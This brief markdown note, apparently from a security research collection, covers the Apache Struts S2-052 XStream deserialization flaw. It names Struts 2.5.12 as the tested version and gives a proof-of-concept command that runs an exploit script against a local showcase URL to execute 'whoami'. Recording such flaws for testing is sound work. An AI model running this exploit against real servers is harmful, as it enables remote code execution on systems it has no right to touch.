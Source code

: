 ### S2-052 xtream 反序列化漏洞

测试版本

* struts/2.5.12

Poc

```
s2-052.py -u http://127.0.0.1:8080/struts2-rest-showcase/orders/3 -c whoami
```

